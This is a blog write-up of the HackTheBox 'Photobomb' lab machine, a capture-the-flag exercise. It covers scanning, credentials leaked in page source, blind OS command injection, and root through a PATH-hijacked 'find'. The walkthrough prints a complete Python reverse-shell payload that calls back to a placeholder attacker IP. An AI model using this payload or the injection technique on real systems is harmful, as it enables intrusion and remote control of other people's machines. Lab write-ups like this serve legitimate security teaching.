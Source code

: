 ```yaml
---
date: 2023-02-10 17:32:03
layout: post
title: HackTheBox - Photobomb

description: 
image: /assets/img/htb/photobomb/info.png
optimized_image: /assets/img/htb/photobomb/info.png
category: blog
tags:
  - hackthebox
  - Photobomb
  - web vulnerabilites
  - htb
  - command injection
  - basics privilege escalation
---
```


# Machine Information
This machine is from easy level worth 20 points.

IP: `10.10.11.182`

# Scanning and Enumeration
First thing add ip to `/etc/hosts` file to allow any dns records.

```bash
nano /etc/hosts
```
Use `nano` to open this file and put ip.

![image](/assets/img/htb/photobomb/nano1.png)

Naturally, we will use `nmap` to identify open ports and collect some information about that machine.

```bash
nmap -A -T5 -p- 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-03 00:57 EST
Warning: 10.10.11.182 giving up on port because retransmission cap hit (2).
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.10.11.182
Host is up (0.094s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   92.39 ms 10.10.14.1
2   91.01 ms 10.10.11.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 372.55 seconds
```

After scanning, I found ports 22 and 80 open, so I'll go to Website and dig deeper.

![image](/assets/img/htb/photobomb/website.png)

When you press on `Click here`, a window pops up asking you to enter your username and password.

I'm trying to bypass that popup with basic auth techniques like sql injection, default credentials (admin: admin), nosql, etc.. but all of them didn't work.

After that, I thought that I would see a source code, and I actually found the credentials.

![image](/assets/img/htb/photobomb/source.png)

Use this credentials `pH0t0:b0Mb!` to bypass that popup.

![image](/assets/img/htb/photobomb/pass.png)

After logging in, I only found a download function, and now I'm going to test it.

![image](/assets/img/htb/photobomb/download.png)

Capture the request by burp, Send to repeater and Play in parameters.

The first thing that came to my mind after seeing a request is to try to test the `OS Command Injection` vulnerability in all parameters to find out which parameter is at vulnerable.

The vulnerable parameter is the file type you specified with that payload `; ping -c 10 10.10.11.182` and the result was waiting for the response for about 10 millis to know that this parameter was vulnerable to a `blind OS Command Injection` vulnerability.

I've tried using a number of characters as command separators like `| , || , &` , but only those that have succeeded `;` .

![image](/assets/img/htb/photobomb/burp.png)

Use command injection to get reverse shell.

I tried several payloads but only the [python-reverse-shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) worked.

```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Put that payload in that vulnerable parameter.

![image](/assets/img/htb/photobomb/payload.png)

Listen by netcat.

![image](/assets/img/htb/photobomb/nc.png)

Bingoo, I got the user flag.

![image](/assets/img/htb/photobomb/user.png)

# Privilege Escalation

Use `sudo -l` this option will print out the commands allowed (and forbidden) the user on the current host. 

![image](/assets/img/htb/photobomb/sudo.png)

This shows the current user can use this script `/opt/cleanup.sh` as root.

See the script to exploit it.

![image](/assets/img/htb/photobomb/script.png)

 The last line of the above script it is finding the filetype and it is executing it with root permission.
 
 To exploit it do that call the `find` binary using this relative path instead of the absolute path. By creating a malicious `find`, and modifying the path to include the current working directory, I should be able to abuse this misconfiguration, and escalate our privileges to root.
 
And that is known as a name [PATH-Variable-manipulation](https://systemweakness.com/linux-privilege-escalation-using-path-variable-manipulation-64325ab05469).

Add the current working directory to PATH.

![image](/assets/img/htb/photobomb/path.png)

Create the malicious `find` binary and make it executable.

![image](/assets/img/htb/photobomb/find.png)

Now, Run the script `/opt/cleanup.sh`. 

Great, I become root.

![image](/assets/img/htb/photobomb/who.png)

Bingoo, I got the root flag.

![image](/assets/img/htb/photobomb/root.png)

Thank you for reading and happy hacking🖤😈
